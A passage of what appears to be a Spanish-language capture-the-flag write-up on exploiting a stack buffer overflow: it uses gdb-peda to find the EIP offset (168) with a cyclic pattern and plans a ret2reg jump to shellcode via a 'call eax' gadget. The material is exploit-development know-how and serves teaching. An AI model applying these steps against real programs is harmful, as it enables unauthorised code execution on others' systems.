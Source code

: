 Vamos a crear un patrón de 400 caracteres para saber cual es el offset para llegar al EIP.
```console
gdb-peda$ pattern create 400
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%y'
```

Podemos ver que el EIP se queda en la cadena `VAAt`
![Write-up Image](images/Screenshot_41.png)

Ahora podemos saber cual es el offset fácilmente y vemos que es 168.
```console
gdb-peda$ pattern offset $eip
1950433622 found at offset: 168
```

Ahora sabiendo el offset, podemos hacer un `ret2reg`, para ello tenemos que buscar una instrucción de llamada al EAX donde vamos a ejecutar nuestro shellcode.

Utilizando [ropshell.com](http://ropshell.com/ropsearch?h=fabc1afd43f668df0b812213567d032c) podemos ver que alguien ya ha utilizado esta herramienta para encontrar alguna llamada interesante.
